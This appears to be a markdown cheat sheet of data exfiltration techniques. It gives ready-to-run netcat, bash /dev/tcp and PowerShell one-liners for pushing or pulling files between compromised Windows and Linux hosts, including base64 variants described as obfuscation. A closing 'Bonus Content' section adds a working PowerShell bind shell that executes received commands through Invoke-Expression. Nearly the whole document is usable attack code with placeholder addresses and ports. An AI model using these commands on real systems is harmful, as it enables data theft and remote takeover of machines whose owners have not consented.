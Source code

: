 # Data Exfiltration Techniques
#### This is a list of some data exfiltration techniques if you don't have access to SCP, FTP, SMB, etc.

***

***

### Windows To Linux

<details>

<summary>Send a file from a remote Windows client to a local Linux host</summary>

#### Send a file from a *remote* Windows client to a *local* Linux host

![](./imgs/win-lin-rev.png)

##### If you want to send the raw contents:

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; Setup a Netcat listener on the *local* Linux host:

```
nc -lp %ListeningPort% > /path/to/store/file.ext
```

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; On the *remote* Windows client connect back with PowerShell:

```
& {$FilePath = "$pwd\file.ext"; $LHost = "%ListenerAddress%"; $LPort = %ListeningPort%; $FileContents = [System.IO.File]::ReadAllBytes($FilePath); $TCPClient = New-Object Net.Sockets.TCPClient($LHost, $LPort); $NetworkStream = $TCPClient.GetStream(); $NetworkStream.Write($FileContents, 0, $FileContents.Length); $NetworkStream.Close(); $TCPClient.Close()}
```

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; If not running from the same directory as the file location, then change ```$pwd\file.txt``` to the proper filepath.

##### If you want to obfuscate the data being transfered by converting it to a base64 string:

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; Setup a Netcat listener on the *local* Linux host:

```
nc -lp %ListeningPort% | base64 -d > /path/to/store/file.ext
```

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; On the *remote* Windows client connect back with PowerShell:

```
& {$FilePath = "$pwd\file.ext"; $LHost = "%ListenerAddress%"; $LPort = %ListeningPort%; $Base64String = [System.Convert]::ToBase64String([System.IO.File]::ReadAllBytes("$FilePath")); $TCPClient = New-Object Net.Sockets.TCPClient($LHost, $LPort); $NetworkStream = $TCPClient.GetStream(); $StreamWriter = New-Object IO.StreamWriter($NetworkStream); $StreamWriter.AutoFlush = $true; $StreamWriter.Write($Base64String); $StreamWriter.Close(); $NetworkStream.Close(); $TCPClient.Close()}
```

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; If not running from the same directory as the file location, then change ```$pwd\file.txt``` to the proper filepath.

</details>

***

<details>

<summary>Retrieve a file from a remote Windows client to a local Linux host</summary>

#### Retrieve a file from a *remote* Windows client to a *local* Linux host

![](./imgs/win-lin-bind.png)

##### If you want to send the raw contents:

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; Setup a PowerShell listener on the *remote* Windows client:

```
& {$FilePath = "$pwd\file.ext"; $LPort = %ListeningPort%; $Listener = [System.Net.Sockets.TcpListener]::Create($LPORT); $Listener.Start(); $TCPClient = $Listener.AcceptTcpClient(); $NetworkStream = $TCPClient.GetStream(); $FileContents = [System.IO.File]::ReadAllBytes($FilePath); $NetworkStream.Write($FileContents, 0, $FileContents.Length); $NetworkStream.Close(); $TCPClient.Close(); $Listener.Stop()}
```

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; If not running from the same directory as the file location, then change ```$pwd\file.txt``` to the proper filepath.

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; On the *local* Linux host connect back with Netcat:

```
nc %ListenerAddress% %ListeningPort% > /path/to/store/file.ext
```

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; If Netcat is unavailable, on the *local* Linux host connect back with Bash:

```
cat < /dev/tcp/%ListenerAddress%/%ListenerPort% > /path/to/store/file.ext
```

##### If you want to obfuscate the data being transfered by converting it to a base64 string:

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; Setup a PowerShell listener on the *remote* Windows client:

```
& {$FilePath = "$pwd\file.ext"; $LPort = %ListeningPort%; $Base64String = [System.Convert]::ToBase64String([System.IO.File]::ReadAllBytes("$FilePath")); $Listener = [System.Net.Sockets.TcpListener]::Create($LPORT); $Listener.Start(); $TCPClient = $Listener.AcceptTcpClient(); $NetworkStream = $TCPClient.GetStream(); $StreamWriter = New-Object IO.StreamWriter($NetworkStream); $StreamWriter.AutoFlush = $true; $StreamWriter.Write($Base64String); $StreamWriter.Close(); $NetworkStream.Close(); $TCPClient.Close(); $Listener.Stop()}
```

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; If not running from the same directory as the file location, then change ```$pwd\file.txt``` to the proper filepath.

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; On the *local* Linux host connect back with Netcat:

```
nc %ListenerAddress% %ListeningPort% | base64 -d > /path/to/store/file.ext
```

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; If Netcat is unavailable, on the *local* Linux host connect back with Bash:

```
cat < /dev/tcp/%ListenerAddress%/%ListenerPort% | base64 -d > /path/to/store/file.ext
```

</details>

***

***

### Linux To Windows

<details>

<summary>Send a file from a remote Linux client to a local Windows host</summary>

#### Send a file from a *remote* Linux client to a *local* Windows host

![](./imgs/lin-win-rev.png)

##### If you want to send the raw contents:

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; Setup a PowerShell listener on the *local* Windows host:

```
& {$FilePath = "$pwd\file.ext"; $LPort = %ListeningPort%; $Listener = [System.Net.Sockets.TcpListener]::Create($LPort); $Listener.Start(); $TCPClient = $Listener.AcceptTcpClient(); $NetworkStream = $TCPClient.GetStream(); $File = [System.IO.File]::OpenWrite("$FilePath"); $Buffer = New-Object byte[] 1024; while ($true) { $BytesRead = $NetworkStream.Read($Buffer, 0, $Buffer.Length); if ($BytesRead -eq 0) { break }; $File.Write($Buffer, 0, $BytesRead) }; $File.Close(); $NetworkStream.Close(); $TCPClient.Close(); $Listener.Stop()}
```

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; If not running from the same directory as the file location, then change ```$pwd\file.txt``` to the proper filepath.

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; On the *remote* Linux client connect back with Netcat:

```
nc -q 0 %ListenerAddress% %ListeningPort% < /path/to/sending/file.ext
```

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; If Netcat is unavailable, on the *remote* Linux client connect back with Bash:

```
cat /path/to/sending/file.ext >& /dev/tcp/%ListenerAddress%/%ListenerPort%
```

##### If you want to obfuscate the data being transfered by converting it to a base64 string:

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; Setup a PowerShell listener on the *local* Windows host:

```
& {$FilePath = "$pwd\file.ext"; $LPort = %ListeningPort%; $Listener = [System.Net.Sockets.TcpListener]::Create($LPort); $Listener.Start(); $TCPClient = $Listener.AcceptTcpClient(); $NetworkStream = $TCPClient.GetStream(); $Buffer = New-Object byte[] 1024; while ($true) { $BytesRead = $NetworkStream.Read($Buffer, 0, $Buffer.Length); if ($BytesRead -eq 0) { break }; $Data = [System.Text.Encoding]::ASCII.GetString($Buffer, 0, $BytesRead); $Contents = $Contents + $Data }; $Base64String = [Convert]::FromBase64String($Contents); [IO.File]::WriteAllBytes("$FilePath", $Base64String); $NetworkStream.Close(); $TCPClient.Close(); $Listener.Stop()}
```

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; If not running from the same directory as the file location, then change ```$pwd\file.txt``` to the proper filepath.

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; On the *remote* Linux client connect back with Netcat:

```
base64 -w0 /path/to/sending/file.ext | nc -q 0 %ListenerAddress% %ListeningPort%
```

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; If Netcat is unavailable, on the *remote* Linux client connect back with Bash:

```
base64 -w0 /path/to/sending/file.ext >& /dev/tcp/%ListenerAddress%/%ListenerPort%
```

</details>

***

<details>

<summary>Retrieve a file from a remote Linux client to a local Windows host</summary>

#### Retrieve a file from a *remote* Linux client to a *local* Windows host

![](./imgs/lin-win-bind.png)

##### If you want to send the raw contents:

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; Setup a Netcat listener on the *remote* Linux client:

```
nc -q 0 -lp %ListenerPort% < /path/to/sending/file.ext
```

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; On the *local* Windows host connect back with PowerShell:

```
& {$FilePath = "$pwd\file.ext"; $LHost = "%ListenerAddress%"; $LPort = %ListeningPort%; $TCPClient = New-Object Net.Sockets.TCPClient($LHost, $LPort); $NetworkStream = $TCPClient.GetStream(); $File = [System.IO.File]::OpenWrite("$FilePath"); $Buffer = New-Object byte[] 1024; while ($true) { $BytesRead = $NetworkStream.Read($Buffer, 0, $Buffer.Length); if ($BytesRead -eq 0) { break }; $File.Write($Buffer, 0, $BytesRead) }; $File.Close(); $NetworkStream.Close(); $TCPClient.Close()}
```

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; If not running from the same directory as the file location, then change ```$pwd\file.txt``` to the proper filepath.

##### If you want to obfuscate the data being transfered by converting it to a base64 string:

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; Setup a Netcat listener on the *remote* Linux client:

```
base64 -w0 /path/to/sending/file.ext | nc -q 0 -lp %ListeningPort%
```

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; On the *local* Windows host connect back with PowerShell:

```
& {$FilePath = "$pwd\file.ext"; $LHost = "%ListenerAddress%"; $LPort = %ListeningPort%; $TCPClient = New-Object Net.Sockets.TCPClient($LHost, $LPort); $NetworkStream = $TCPClient.GetStream(); $Buffer = New-Object byte[] 1024; while ($true) { $BytesRead = $NetworkStream.Read($Buffer, 0, $Buffer.Length); if ($BytesRead -eq 0) { break }; $Data = [System.Text.Encoding]::ASCII.GetString($Buffer, 0, $BytesRead); $Contents = $Contents + $Data }; $Base64String = [Convert]::FromBase64String($Contents); [IO.File]::WriteAllBytes("$FilePath", $Base64String); $NetworkStream.Close(); $TCPClient.Close()}
```

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; If not running from the same directory as the file location, then change ```$pwd\file.txt``` to the proper filepath.

</details>

***

***

### Linux To Linux

<details>

<summary>Send file from remote Linux client to local Linux host</summary>

#### Send file from *remote* Linux client to *local* Linux host

![](./imgs/lin-lin-rev.png)

##### If you want to send the raw contents:

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; Setup a Netcat listener on the *local* Linux host:

```
nc -lp port > /path/to/store/file.ext
```

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; On the *remote* Linux client connect back with Netcat:

```
nc -q 0 %ListenerAddress% %ListeningPort% < /path/to/sending/file.ext
```

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; If Netcat is unavailable, on the *remote* Linux client connect back with Bash:

```
cat /path/to/sending/file.ext > /dev/tcp/%ListenerAddress%/%ListenerPort%
```

##### If you want to obfuscate the data being transfered by converting it to a base64 string:

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; Setup a Netcat listener on the *local* Linux host:

```
nc -lp %ListeningPort% | base64 -d > /path/to/store/file.ext
```

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; On the *remote* Linux client connect back with Netcat:

```
base64 -w0 /path/to/sending/file.ext | nc -q 0 %ListenerAddress% %ListeningPort%
```

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; If Netcat is unavailable, on the *remote* Linux client connect back with Bash:

```
base64 -w0 /path/to/sending/file.ext > /dev/tcp/%ListenerAddress%/%ListenerPort%
```

</details>

***

<details>

<summary>Retrieve a file from a remote Linux client to a local Linux host</summary>

#### Retrieve a file from a *remote* Linux client to a *local* Linux host

![](./imgs/lin-lin-bind.png)

##### If you want to send the raw contents:

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; Setup a Netcat listener on the *remote* Linux client:

```
nc -q 0 -lp %ListenerPort% < /path/to/sending/file.ext
```

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; On the *local* Linux host connect back with Netcat:

```
nc %ListenerAddress% %ListeningPort% > /path/to/store/file.ext
```

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; If Netcat is unavailable, on the *local* Linux host connect back with Bash:

```
cat < /dev/tcp/%ListenerAddress%/%ListenerPort% > /path/to/store/file.ext
```

##### If you want to obfuscate the data being transfered by converting it to a base64 string:

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; Setup a Netcat listener on the *remote* Linux client:

```
base64 -w0 /path/to/sending/file.ext | nc -q 0 -lp %ListeningPort%
```

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; On the *local* Linux host connect back with Netcat:

```
nc %ListenerAddress% %ListeningPort% | base64 -d > /path/to/store/file.ext
```

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; If Netcat is unavailable, on the *local* Linux host connect back with Bash:

```
cat < /dev/tcp/%ListenerAddress%/%ListenerPort% | base64 -d > /path/to/store/file.ext
```

</details>

***

***

### Windows To Windows

<details>

<summary>Send file from remote Windows client to local Windows host</summary>

#### Send file from *remote* Windows client to *local* Windows host

![](./imgs/win-win-rev.png)

##### If you want to send the raw contents:

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; Setup a PowerShell listener on the *local* Windows host:

```
& {$FilePath = "$pwd\file.ext"; $LPort = %ListeningPort%; $Listener = [System.Net.Sockets.TcpListener]::Create($LPort); $Listener.Start(); $TCPClient = $Listener.AcceptTcpClient(); $NetworkStream = $TCPClient.GetStream(); $File = [System.IO.File]::OpenWrite("$FilePath"); $Buffer = New-Object byte[] 1024; while ($true) { $BytesRead = $NetworkStream.Read($Buffer, 0, $Buffer.Length); if ($BytesRead -eq 0) { break }; $File.Write($Buffer, 0, $BytesRead) }; $File.Close(); $NetworkStream.Close(); $TCPClient.Close(); $Listener.Stop()}
```

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; If not running from the same directory as the file location, then change ```$pwd\file.txt``` to the proper filepath.

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; On the *remote* Windows client connect back with PowerShell:

```
& {$FilePath = "$pwd\file.ext"; $LHost = "%ListenerAddress%"; $LPort = %ListeningPort%; $FileContents = [System.IO.File]::ReadAllBytes($FilePath); $TCPClient = New-Object Net.Sockets.TCPClient($LHost, $LPort); $NetworkStream = $TCPClient.GetStream(); $NetworkStream.Write($FileContents, 0, $FileContents.Length); $NetworkStream.Close(); $TCPClient.Close()}
```

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; If not running from the same directory as the file location, then change ```$pwd\file.txt``` to the proper filepath.

##### If you want to obfuscate the data being transfered by converting it to a base64 string:

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; Setup a PowerShell listener on the *local* Windows host:

```
& {$FilePath = "$pwd\file.ext"; $LPort = %ListeningPort%; $Listener = [System.Net.Sockets.TcpListener]::Create($LPort); $Listener.Start(); $TCPClient = $Listener.AcceptTcpClient(); $NetworkStream = $TCPClient.GetStream(); $Buffer = New-Object byte[] 1024; while ($true) { $BytesRead = $NetworkStream.Read($Buffer, 0, $Buffer.Length); if ($BytesRead -eq 0) { break }; $Data = [System.Text.Encoding]::ASCII.GetString($Buffer, 0, $BytesRead); $Contents = $Contents + $Data }; $Base64String = [Convert]::FromBase64String($Contents); [IO.File]::WriteAllBytes("$FilePath", $Base64String); $NetworkStream.Close(); $TCPClient.Close(); $Listener.Stop()}
```
###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; If not running from the same directory as the file location, then change ```$pwd\file.txt``` to the proper filepath.

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; On the *remote* Windows client connect back with PowerShell:

```
& {$FilePath = "$pwd\file.ext"; $LHost = "%ListenerAddress%"; $LPort = %ListeningPort%; $Base64String = [System.Convert]::ToBase64String([System.IO.File]::ReadAllBytes("$FilePath")); $TCPClient = New-Object Net.Sockets.TCPClient($LHost, $LPort); $NetworkStream = $TCPClient.GetStream(); $StreamWriter = New-Object IO.StreamWriter($NetworkStream); $StreamWriter.AutoFlush = $true; $StreamWriter.Write($Base64String); $StreamWriter.Close(); $NetworkStream.Close(); $TCPClient.Close()}
```

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; If not running from the same directory as the file location, then change ```$pwd\file.txt``` to the proper filepath.

</details>

***

<details>

<summary>Retrieve a file from a remote Windows client to a local Windows host</summary>

#### Retrieve a file from a *remote* Windows client to a *local* Windows host

![](./imgs/win-win-bind.png)

##### If you want to send the raw contents:

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; Setup a PowerShell listener on the *remote* Windows client:

```
& {$FilePath = "$pwd\file.ext"; $LPort = %ListeningPort%; $Listener = [System.Net.Sockets.TcpListener]::Create($LPort); $Listener.Start(); $TCPClient = $Listener.AcceptTcpClient(); $NetworkStream = $TCPClient.GetStream(); $FileContents = [System.IO.File]::ReadAllBytes($FilePath); $NetworkStream.Write($FileContents, 0, $FileContents.Length); $NetworkStream.Close(); $TCPClient.Close(); $Listener.Stop()}
```

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; If not running from the same directory as the file location, then change ```$pwd\file.txt``` to the proper filepath.

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; On the *local* Windows host connect back with PowerShell:

```
& {$FilePath = "$pwd\file.ext"; $LHost = "%ListenerAddress%"; $LPort = %ListeningPort%; $TCPClient = New-Object Net.Sockets.TCPClient($LHost, $LPort); $NetworkStream = $TCPClient.GetStream(); $File = [System.IO.File]::OpenWrite("$FilePath"); $Buffer = New-Object byte[] 1024; while ($true) { $BytesRead = $NetworkStream.Read($Buffer, 0, $Buffer.Length); if ($BytesRead -eq 0) { break }; $File.Write($Buffer, 0, $BytesRead) }; $File.Close(); $NetworkStream.Close(); $TCPClient.Close()}
```

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; If not running from the same directory as the file location, then change ```$pwd\file.txt``` to the proper filepath.

##### If you want to obfuscate the data being transfered by converting it to a base64 string:

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; Setup a PowerShell listener on the *remote* Windows client:

```
& {$FilePath = "$pwd\file.ext"; $LPort = %ListeningPort%; $Base64String = [System.Convert]::ToBase64String([System.IO.File]::ReadAllBytes("$FilePath")); $Listener = [System.Net.Sockets.TcpListener]::Create($LPORT); $Listener.Start(); $TCPClient = $Listener.AcceptTcpClient(); $NetworkStream = $TCPClient.GetStream(); $StreamWriter = New-Object IO.StreamWriter($NetworkStream); $StreamWriter.AutoFlush = $true; $StreamWriter.Write($Base64String); $StreamWriter.Close(); $NetworkStream.Close(); $TCPClient.Close(); $Listener.Stop()}
```

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; If not running from the same directory as the file location, then change ```$pwd\file.txt``` to the proper filepath.

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; On the *local* Windows host connect back with PowerShell:

```
& {$FilePath = "$pwd\file.ext"; $LHost = "%ListenerAddress%"; $LPort = %ListeningPort%; $TCPClient = New-Object Net.Sockets.TCPClient($LHost, $LPort); $NetworkStream = $TCPClient.GetStream(); $Buffer = New-Object byte[] 1024; while ($true) { $BytesRead = $NetworkStream.Read($Buffer, 0, $Buffer.Length); if ($BytesRead -eq 0) { break }; $Data = [System.Text.Encoding]::ASCII.GetString($Buffer, 0, $BytesRead); $Contents = $Contents + $Data }; $Base64String = [Convert]::FromBase64String($Contents); [IO.File]::WriteAllBytes("$FilePath", $Base64String); $NetworkStream.Close(); $TCPClient.Close()}
```

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; If not running from the same directory as the file location, then change ```$pwd\file.txt``` to the proper filepath.

</details>

***

***

<details>

<summary>Bonus Content</summary>

#### Bonus Content

##### PowerShell Bind Shell:

```
& {$LPort = %ListeningPort%; $Listener = [System.Net.Sockets.TcpListener]::Create($LPort); $Listener.Start(); $TCPClient = $Listener.AcceptTCPClient(); $NetworkStream = $TCPClient.GetStream(); $StreamWriter = [System.IO.StreamWriter]::new($NetworkStream); $StreamWriter.AutoFlush = $true; $Buffer = [System.Byte[]]::new(1024); while (($RawData = $NetworkStream.Read($Buffer, 0, $Buffer.Length)) -ne 0) {$Code = [Text.Encoding]::ASCII.GetString($Buffer, 0, $RawData); try {$Output = Invoke-Expression $Code 2>&1 | Out-String;} catch {$Output = $_.Exception.Message}; $Prompt = "PS $($PWD.Path)> "; $FullOutput = $Output + "`n" + $Prompt; $StreamWriter.Write($FullOutput); $Code = $null}; $TCPClient.Close(); $NetworkStream.Close(); $StreamWriter.Close(); $Listener.Stop()}
```

##### PowerShell Listener:

```
& {$LPort = %ListeningPort%; $Listener = [System.Net.Sockets.TcpListener]::Create($LPort); $Listener.Start(); Write-Output "Listening on port $LPort..."; $TCPClient = $Listener.AcceptTCPClient(); Write-Output "Client connected."; $NetworkStream = $TCPClient.GetStream(); $StreamWriter = [System.IO.StreamWriter]::new($NetworkStream); $StreamWriter.AutoFlush = $true; $Buffer = [System.Byte[]]::new(1024); while ($TCPClient.Connected) { try { $Input = Read-Host; $StreamWriter.Write($Input + "`n"); $Count = 0; if ($Input -eq "exit") { break } do { $NetworkStream.ReadTimeout = 50; $RawData = $NetworkStream.Read($Buffer, 0, $Buffer.Length); if ($Data -eq 0) { break }; $Data = [Text.Encoding]::ASCII.GetString($Buffer, 0, $RawData); $Output = $Output + $Data } while ($NetworkStream.DataAvailable); Write-Output $Output; $Output = $null; $Data = $null } catch { continue } } $StreamWriter.Close(); $NetworkStream.Close(); $TCPClient.Close(); $Listener.Stop(); Write-Output "Connection closed."}
```

</details>
